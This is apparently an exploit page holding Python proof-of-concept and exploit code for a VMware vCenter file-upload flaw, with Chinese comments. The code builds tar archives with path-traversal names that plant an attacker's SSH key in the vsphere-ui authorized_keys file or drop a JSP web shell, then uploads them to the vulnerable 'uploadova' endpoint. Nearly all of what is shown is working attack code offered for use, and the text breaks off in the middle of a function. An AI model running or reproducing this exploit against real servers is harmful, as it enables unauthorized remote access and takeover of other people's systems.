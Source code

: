 ```python
        tarinfo = tarfile.TarInfo(name='../../../home/vsphere-ui/.ssh/authorized_keys')
        # Windows 需要改一下
        #tarinfo = tarfile.TarInfo(name="..\\..\\ProgramData\\VMware\\vCenterServer\\data\\perfcharts\\tc-instance\\webapps\\statsreport\\test.jsp")

        f1 = BytesIO(id_rsa_pub.encode())
        tarinfo.size = len(f1.read())
        f1.seek(0)
        tar.addfile(tarinfo, fileobj=f1)
        tar.close()
        payload.seek(0)
def getshell(url):
    files = {'uploadFile':open('test.tar','rb')}
    try:
        r = requests.post(url=url, files=files,proxies=proxies,verify = False).text
        print(r)
        # windows下：
        #         print('shell地址:/statsreport/test.jsp')
    except:
        print('flase')

if __name__ == "__main__":
    try:
        return_zip()
        url="https://192.168.1.1/ui/vropspluginui/rest/services/uploadova"
        getshell(url)
    except IOError as e:
        raise e
```



整合的POC&EXP

```python
import requests
import tarfile
import sys
import getopt
requests.packages.urllib3.disable_warnings()


proxy = {}

def poc(target):
	url = (target + '/ui/vropspluginui/rest/services/uploadova').replace('//ui', '/ui')
	web = requests.get(url,verify=False,proxies=proxy)
	if web.status_code == 405:
		return True
	else:
		return False

def payload_linux(filename, payload_type):
	payload_path = '../../home/vsphere-ui/.ssh/authorized_keys' if payload_type=='ssh' else '../../usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/%d/0/h5ngc.war/resources/test.jsp'
	payload_tar = tarfile.open('payload_linux.tar','w')
	for i in range(106):
		payload_tar.add(filename, arcname=payload_path % i)
	payload_tar.close()

def payload_win(filename):
	payload_path = '../../ProgramData/VMware/vCenterServer/data/perfcharts/tc-instance/webapps/statsreport/test.jsp'
	payload_tar = tarfile.open('payload_win.tar','w')
	payload_tar.add(filename, arcname=payload_path)
```